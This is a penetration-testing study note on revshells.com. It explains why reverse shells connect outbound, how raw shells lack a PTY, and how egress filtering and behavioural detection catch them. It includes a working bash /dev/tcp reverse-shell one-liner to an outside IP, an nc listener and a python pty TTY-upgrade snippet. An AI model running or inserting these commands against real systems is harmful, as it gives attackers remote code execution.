

# revshells.com

> [!abstract] Note of [[Web-Based Tools & References]]
> revshells.com generates the correct reverse-shell one-liner for a chosen shell, OS and listener, plus the matching listener command. This note covers why a shell travels *outbound* to exploit the firewall's asymmetry, why the payload runs entirely in your browser so nothing is submitted, and why that outbound call-home is exactly what a defender detects.

revshells.com is an online **reverse-shell generator**. You enter your listener IP and port, pick a shell type (bash, `nc`, python, PowerShell, PHP, …) and target OS, and it prints the correct one-liner — plus the matching listener command. It eliminates the error-prone job of remembering and correctly quoting dozens of payload variants, and teaches the *shape* of a reverse shell along the way.

> [!warning] Authorized targets only
> A reverse shell is remote code execution. Generate and use payloads only against systems you are authorized to test.

## Parent Learning Order
GTFOBins -> LOLBAS -> CrackStation -> Aperisolve -> revshells.com

## Exploiting the asymmetry firewalls create

> *The firewall blocks inbound connections and permits outbound ones. Which way should your shell travel?*
>
> Hold your answer — the section below is the response.

A firewall usually blocks *inbound* connections but allows *outbound* ones. A **reverse shell** exploits that asymmetry: instead of you connecting *to* the victim (a bind shell, usually blocked), the victim connects *back to you*, and its shell's input/output ride that connection. You run a listener; the victim "calls home."



The reverse direction is the whole trick — outbound egress is the path fewest firewalls block.

## Listener first, then the payload

Set `LHOST`/`LPORT` on the site, choose a shell, and it generates both halves. Start the listener first, then run the payload on the target:

```shell-session
attacker$ nc -lvnp 4444
Listening on 0.0.0.0 4444
```

```bash
# victim (generated bash payload)
bash -i >& /dev/tcp/198.51.100.9/4444 0>&1
```

```shell-session
attacker$ nc -lvnp 4444
Connection received on 10.10.20.20 51234
victim$ id
uid=33(www-data) gid=33(www-data)
```

The site offers the same shell in every flavour — `nc`, `nc -e`, python3, PHP, PowerShell, Perl, Ruby, Go, `mkfifo` — so whatever the victim *has*, there's a payload. It also generates the listener line and a one-click **`Ctrl-Z` → `stty raw -echo`** TTY-upgrade snippet.

## Why a raw shell breaks the moment you need a terminal

A raw reverse shell is a *dumb* shell — and discovering its limits is the lesson:

```shell-session
victim$ sudo su          # in a raw nc shell
sudo: no tty present and no askpass program specified
victim$ ^C               # this kills your WHOLE shell, not the command
attacker$ (connection closed)
```

**The deliberate break:** a raw reverse shell has **no PTY**, so anything needing a terminal — `sudo` password prompts, `ssh`, `vim`, job control — fails, and a stray `Ctrl-C` kills the entire session instead of the running command. The fix is the **TTY upgrade** revshells.com provides:

**How you'd spot it:** the symptoms are consistent and immediate: no prompt, `sudo` refusing with "no tty present", tab completion dead, and `Ctrl-C` killing the whole session instead of the running command. Any one of those means you are on a raw shell and the upgrade has not happened yet.

```shell-session
victim$ python3 -c 'import pty;pty.spawn("/bin/bash")'
# then on attacker: Ctrl-Z; stty raw -echo; fg; export TERM=xterm
victim$ sudo su
[sudo] password for www-data:      ← now the prompt works
```

Understanding *why* (a reverse shell is a byte pipe, not a terminal — no PTY means no line discipline, no job control) is what separates "the shell keeps dying" from a stable, interactive foothold. The generator gives you the payload; knowing the PTY limitation makes it usable.

## Security Implications

**The whole technique is an outbound connection, so egress filtering is the network control that stops it.** A reverse shell works because firewalls block inbound and permit outbound; a default-deny *outbound* policy that permits only known destinations removes the path the victim uses to call home. This is the offensive mirror of the egress-control material — the reverse shell is precisely the C2 channel that egress filtering exists to catch.

**The call-home has a behavioural signature.** `bash -i >& /dev/tcp/…`, or `python`/`php`/`powershell` holding a socket to an external host on an odd port, is a shell process with a network connection it should not have — the same anomaly flow analysis flags as beaconing. A `/dev/tcp` redirect needs no tools on the victim, which is why it is a favourite and why detection is behavioural rather than file-based.

**The generator runs client-side, so nothing you type is submitted.** Unlike CrackStation or Aperisolve, revshells.com builds the payload in the browser — your `LHOST` and `LPORT` never leave the page — so the OpSec concern is not data disclosure but that the generated payload is live remote code execution to be used only in scope.

All payloads here are RCE; generate and fire them only against systems you are authorised to test.

## Summary

You should now be able to:

- Explain why a reverse shell has the victim connect *out* rather than you connecting in.
- Get a shell from revshells.com on a target that has python but no `nc`.
- Explain why `sudo` and `Ctrl-C` misbehave in a raw reverse shell, and what a TTY upgrade fixes.

---
> 🔼 Up: [[Web-Based Tools & References]]
